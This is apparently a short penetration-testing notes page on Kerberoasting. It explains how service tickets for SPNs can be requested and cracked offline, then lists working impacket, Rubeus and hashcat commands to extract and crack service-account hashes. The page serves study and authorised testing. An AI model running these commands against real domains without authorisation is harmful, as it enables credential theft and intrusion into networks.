 # Overview
>When a user wants to access a resource hosted by a Service Principal Name (SPN), the client requests a service ticket that is generated by the domain controller. The service ticket is then decrypted and validated by the application server, since it is encrypted via the password hash of the SPN. 
>When requesting the service ticket from the domain controller, no checks are performed to confirm whether the user has any permissions to access the service hosted by the SPN. 
>These checks are performed as a second step only when connecting to the service itself. This means that if we know the SPN we want to target, we can request a service ticket for it from the domain controller.
>The service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account. This technique is known as _Kerberoasting_

# Exploit
## Linux

```bash
impacket-GetUserSPNs -request -dc-ip <dc_ip> <domain>/<user>

# crack
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
## Windows
```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast

# crack
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```